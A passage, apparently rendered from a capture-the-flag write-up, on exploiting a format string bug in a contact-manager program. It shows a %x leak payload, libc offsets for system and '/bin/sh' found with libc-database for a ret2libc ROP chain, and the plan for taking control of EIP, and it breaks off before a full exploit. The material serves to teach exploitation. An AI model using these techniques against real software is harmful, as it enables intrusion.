 ```bash
  Description: f763ca63
Menu:
1)Create contact
2)Remove contact
3)Edit contact
4)Display contacts
5)Exit
>>> 
```

Using [Niklas Baumstark's libc-database](https://github.com/niklasb/libc-database) tool we get a list of candidate libc versions based on the leaked pointer:

```bash
$ ./find __libc_start_main_ret a63
ubuntu-trusty-amd64-libc6-i386 (id libc6-i386_2.19-0ubuntu6.6_amd64)
archive-eglibc (id libc6-i386_2.19-0ubuntu6_amd64)
ubuntu-utopic-amd64-libc6-i386 (id libc6-i386_2.19-10ubuntu2.3_amd64)
archive-glibc (id libc6-i386_2.19-10ubuntu2_amd64)
archive-glibc (id libc6-i386_2.19-15ubuntu2_amd64)
$ ./dump libc6-i386_2.19-0ubuntu6.6_amd64
offset___libc_start_main_ret = 0x19a63
offset_system = 0x0003fcd0
offset_dup2 = 0x000d9dd0
offset_read = 0x000d9490
offset_write = 0x000d9510
offset_str_bin_sh = 0x15da84
```

We simply settle for the first candidate libc version and if this proves to be incorrect we can try the others (hoping the libc version is among them). This gives us offsets:

```
offset___libc_start_main_ret = 0x19a63
offset_system = 0x0003fcd0
offset_str_bin_sh = 0x15da84
```

Which we can use to construct our ROP chain later on.

## Achieving EIP control

So let's first try to achieve EIP control. Given that it's a format string vulnerability we can use it as a write-anything-somewhere primitive where we can write a arbitrary 2-byte or 4-byte sequences to address positioned on the stack. This scenario is a little different from the usual one though since our format-string is not on the stack (but in the .bss segment) and as such we cannot use our own string to specify an arbitrary address to write to so we're stuck with what we have available to us on the stack.

Using the format string as infoleak we can see an interesting target address however:

```bash
Menu:
1)Create contact
2)Remove contact
3)Edit contact
4)Display contacts
5)Exit
>>> 1
Contact info: 
  Name: test
[DEBUG] Haven't written a parser for phone numbers; You have 10 numbers
  Enter Phone No: 1337
  Length of description: 100
  Enter description:
    %x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.
Menu:
```